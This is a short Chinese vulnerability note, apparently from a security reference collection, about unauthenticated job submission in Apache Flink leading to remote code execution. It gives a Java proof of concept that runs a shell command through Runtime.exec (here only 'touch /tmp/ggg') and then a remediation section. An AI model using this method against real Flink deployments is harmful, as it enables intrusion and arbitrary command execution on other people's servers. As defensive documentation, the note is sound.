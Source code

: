 ### 一 漏洞描述
flink未授权创建任务

Flink支持上传jar包并且执行，所以这里可以通过上传jar包获取Webshell

### 二 漏洞利用
```angular2html
package com.test;

import java.io.IOException;

public class Main {

    public static void main(String[] args) throws IOException {
	// write your code here
        Runtime.getRuntime().exec(new String[]{"bash","-c","touch /tmp/ggg"});
    }
}
```
![img.png](img.png)  
如果UI不支持，可访问接口创建任务  
https://nightlies.apache.org/flink/flink-docs-release-1.3/monitoring/rest_api.html#submitting-programs


### 三 漏洞修复
针对flink ui进行授权访问，flink原生项目暂不支持授权功能，建议是用web容器的basic access功能配置认证。

> 参考链接: https://y4er.com/post/apache-flink-cve-2020-17518-17519-rce/#%E8%87%AA%E8%BA%AB%E5%8A%9F%E8%83%BDrce
